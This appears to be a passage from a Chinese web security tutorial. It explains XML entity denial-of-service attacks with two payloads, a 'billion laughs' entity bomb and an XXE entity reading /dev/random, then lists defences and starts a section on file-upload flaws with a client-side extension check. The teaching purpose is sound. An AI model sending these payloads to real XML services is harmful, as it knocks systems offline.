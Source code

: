 使用 XML 外部实体可以实现 DoS 攻击，例如：

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

lol 是一个实体，内容为『lol』，lol2 实体引用 10 个 lol 实体，lol3 实体又引用了 10 个 lol2 实体，一直到 lol9，如此就会引用上亿个 lol 实体，XML 解析器将整个结构保存在内存中造成 DoS 攻击。

也可以使用 /dev/random 造成 DoS 攻击：

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<message>
    <user>&xxe;</user>
</message>
```
/dev/random 是 Linux 系统中提供的随机伪设备，提供永不为空的随机字节数据流。

**防护**    

* 尽可能使用简单的数据格式存储和和传输数据，如 json，避免对敏感数据进行序列化
* 及时修复和更新应用程序或操作吸引使用的 XML 处理器和库
* 在 XML 解析器中禁用外部实体和 DTD 进程
* 在服务器端使用白名单进行过滤和验证

## 文件上传漏洞

### 前端检验

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    // 定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    // 提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    // 判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```
